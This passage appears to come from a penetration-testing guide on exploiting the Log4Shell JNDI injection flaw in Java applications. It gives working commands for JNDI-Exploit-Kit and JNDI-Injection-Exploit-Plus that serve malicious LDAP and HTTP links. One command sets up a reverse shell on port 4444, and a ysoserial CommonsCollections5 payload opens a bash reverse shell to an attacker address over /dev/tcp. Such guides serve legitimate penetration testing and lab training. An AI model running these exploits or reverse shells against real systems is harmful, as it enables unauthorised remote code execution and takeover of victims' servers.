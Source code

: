 When sending the attacks you will see some output in the terminal where you executed **JNDIExploit-1.2-SNAPSHOT.jar**.

**Remember to check `java -jar JNDIExploit-1.2-SNAPSHOT.jar -u` for other exploitation options. Moreover, in case you need it, you can change the port of the LDAP and HTTP servers.**

### RCE - JNDI-Exploit-Kit [](#rce__jndiexploitkit_33)

In a similar way to the previous exploit, you can try to use [**JNDI-Exploit-Kit**](https://github.com/pimps/JNDI-Exploit-Kit) to exploit this vulnerability.\
You can generate the URLs to send to the victim running:

```bash
# Get reverse shell in port 4444 (only unix)
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -S 172.17.0.1:4444

# Execute command
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -C "touch /tmp/log4shell"
```

_This attack using a custom generated java object will work in labs like the **THM solar room**. However, this won’t generally work (as by default Java is not configured to load remote codebase using LDAP) I think because it’s not abusing a trusted class to execute arbitrary code._

### RCE - JNDI-Injection-Exploit-Plus

[https://github.com/cckuailong/JNDI-Injection-Exploit-Plus](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus) is another tool for generating **workable JNDI links** and provide background services by starting RMI server,LDAP server and HTTP server.\

### RCE - ysoserial & JNDI-Exploit-Kit

This option is really useful to attack **Java versions configured to only trust specified classes and not everyone**. Therefore, **ysoserial** will be used to generate **serializations of trusted classes** that can be used as gadgets to **execute arbitrary code** (_the trusted class abused by ysoserial must be used by the victim java program in order for the exploit to work_).

Using **ysoserial** or [**ysoserial-modified**](https://github.com/pimps/ysoserial-modified) you can create the deserialization exploit that will be downloaded by JNDI:

```bash
# Rev shell via CommonsCollections5
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.10/7878 0>&1' > /tmp/cc5.ser
```

Use [**JNDI-Exploit-Kit**](https://github.com/pimps/JNDI-Exploit-Kit) to generate **JNDI links** where the exploit will be waiting for connections from the vulnerable machines. You can server **different exploit that can be automatically generated** by the JNDI-Exploit-Kit or even your **own deserialization payloads** (generated by you or ysoserial).

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.10:1389 -P /tmp/cc5.ser
```
